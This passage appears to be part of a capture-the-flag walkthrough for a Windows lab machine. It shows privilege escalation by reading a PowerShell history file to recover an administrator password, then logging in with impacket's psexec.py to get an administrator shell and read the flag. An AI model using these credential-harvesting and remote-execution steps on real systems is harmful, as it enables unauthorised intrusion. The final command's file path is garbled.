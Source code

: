 <p align="center"><img src="./Screenshots/5.png" width="550"></p> 

## Time to Privsec -- 

Check for Terminal/Powershell history to know what is being used mostly by user.
```cmd 
type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
``` 
Reveals that backup share was mounted with admin privileges.

```bash
$ python3 /usr/share/doc/python3-impacket/examples/psexec.py administrator:MEGACORP_4dm1n\!\!@10.10.10.27
```
And Bam!! we have Administrator Privileges.

Move to Desktop and print out root.txt file.

```cmd
C:\WINDOWS\system32> type \user\Administrator\desktop\32 root.txt
```
<p align="center"><img src="./Screenshots/6.png" width="550"></p>

**With that We Owned the Root.**

